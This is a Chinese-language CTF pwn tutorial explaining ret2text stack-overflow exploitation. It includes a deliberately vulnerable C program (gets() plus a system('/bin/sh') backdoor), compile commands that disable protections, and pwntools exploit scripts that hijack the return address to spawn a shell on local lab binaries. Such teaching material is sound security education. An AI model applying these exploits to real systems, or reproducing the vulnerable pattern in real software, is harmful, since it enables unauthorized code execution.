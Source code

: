 > 参考资料：[https://www.dazhuanlan.com/2019/08/22/5d5e50ffd26cc/](https://www.dazhuanlan.com/2019/08/22/5d5e50ffd26cc/)
>
> [https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/](https://wiki.x10sec.org/pwn/stackoverflow/basic_rop/)
>



> 附件：
>
> 链接：[https://pan.baidu.com/s/19_uY_4B0o6X_2k4tbjqRQA](https://pan.baidu.com/s/19_uY_4B0o6X_2k4tbjqRQA)
>
> 提取码：7a6r 
>

### 原理
**<font style="color:#F5222D;">ret2text 即控制程序执行程序本身已有的的代码(.text)。</font>**其实，这种攻击方法是一种笼统的描述。我们控制执行程序已有的代码的时候也可以控制程序执行好几段不相邻的程序已有的代码(也就是 gadgets)，这就是我们所要说的ROP。

这时，我们需要知道对应返回的代码的位置。当然程序也可能会开启某些保护，我们需要想办法去绕过这些保护。

> 顾名思义，ret2text（ret to text），也就是说我们的利用点在原文件中寻找相对应的代码即可（进程存在危险函数如system("/bin")或execv("/bin/sh")的片段，可以直接劫持返回地址到目标函数地址上。从而getshell。），控制程序执行程序本身已有的的代码 (.text)。
>

### 利用前提
开启了NX，栈上无法写入shellcode

> shellcode包含system("/bin/sh")等
>
> 当NX保护开启，就表示题目给了你system（'/bin/sh'），如果关闭，表示你需要自己去构造shellcode
>

### 示例讲解
> ret2text和栈溢出极其相像，毕竟ROP的基本点是栈溢出
>

先来个示例吧，代码如下：

```c
void test(){
	system("/bin/sh");
}
int main(){
	char buf[20];
	gets(buf);
    return 0;
}
```

> 为了方便我们关闭保护，使用kali2019.2版本进行编译：
>
>  gcc -fno-stack-protector -z execstack -z norelro -no-pie test.c -o test
>

编译日志如下：

```bash
root@kali:~/桌面/CTF# gcc -fno-stack-protector -z execstack -z norelro -no-pie test.c -o test
test.c: In function ‘test’:
test.c:2:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
  system("/bin/sh");
  ^~~~~~
test.c: In function ‘main’:
test.c:6:2: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
  gets(buf);
  ^~~~
/usr/bin/ld: /tmp/ccAUtKKs.o: in function `main':
test.c:(.text+0x2d): 警告：the `gets' function is dangerous and should not be used.
root@kali:~/桌面/CTF#
```

检查一下文件保护：

```bash
root@kali:~/桌面/CTF# pwn checksec --file=test
[*] '/root/\xe6\xa1\x8c\xe9\x9d\xa2/CTF/test'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
root@kali:~/桌面/CTF# 
```

所有保护已关闭，我们的目的是为了getshell，所以思路是，填充满缓冲区，然后劫持EIP到test函数的地址上。

将文件载入IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596365180247-7b131a4b-1435-4200-bd58-d4904e3715b2.png)

查看main函数的栈：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596365211366-3a533148-20d1-4238-a73b-ae9bda836c77.png)

r代表的是main函数的栈底，紧接着就是返回地址，因此我们有：

> 代码看不懂的请移步至栈溢出小节（kali自带pwntools）
>

```bash
from pwn import *
p = process("./test")
offset = 40
addr = 0x401132 #0x401132为后门函数地址
payload = 'a' * offset + p64(addr)
p.sendline(payload)
p.interactive()
```

运行一下：

```bash
root@kali:~/桌面/CTF# python 1.py
[+] Starting local process './test': pid 3214
[*] Switching to interactive mode
$ ls
1.py  test  test.c
$  
```

成功getshell

### 开始实战
> 文件下载地址：
>
> [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text/bamboofox-ret2text](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text/bamboofox-ret2text)
>
> 请注意这是32位文件
>

将文件直接扔进IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596365897604-c89f9ee3-fb09-4135-ac8b-3f064ef47b54.png)

发现容易引起栈溢出的函数gets

顺带看一下文件的保护：

```powershell
root@kali:~/桌面/CTF# pwn checksec --file=ret2text
[*] '/root/\xe6\xa1\x8c\xe9\x9d\xa2/CTF/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
root@kali:~/桌面/CTF# 
```

在ELF文件中又发现了后门函数secure

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596366069491-40598dbe-a994-443a-a7c6-875e39f23d95.png)

看一下汇编：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1596366182493-6b8000d7-1426-4035-a6d0-40018d39a50d.png)

在 secure 函数又发现了存在调用 system("/bin/sh") 的代码，那么如果我们直接控制程序返回至 0x0804863A，那么就可以得到系统的 shell 了。

> 可以在伪代码里看到，虽然前面有getshell的验证，但是直接劫持EIP到0x0804863A就行了
>

同理得exp如下：

```powershell
from pwn import *
p = process('./ret2text')
target = 0x804863a
p.sendline('A' * (0x6C+4) + p32(target))
p.interactive()
```

> 这里IDA测得的s栈长度为64+4，经过测试无法getshell，下一节将讲解手动测量栈长度
>

